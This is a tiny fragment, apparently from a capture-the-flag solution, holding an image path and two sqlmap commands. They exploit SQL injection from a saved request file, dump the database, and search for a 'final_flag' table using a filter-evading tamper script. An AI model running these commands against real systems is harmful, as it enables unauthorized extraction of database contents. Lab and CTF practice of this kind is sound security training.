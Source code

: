 sqlmap -r req.txt --batch --dump --tamper=between
sqlmap -r req.txt --batch --search -T final_flag --tamper=between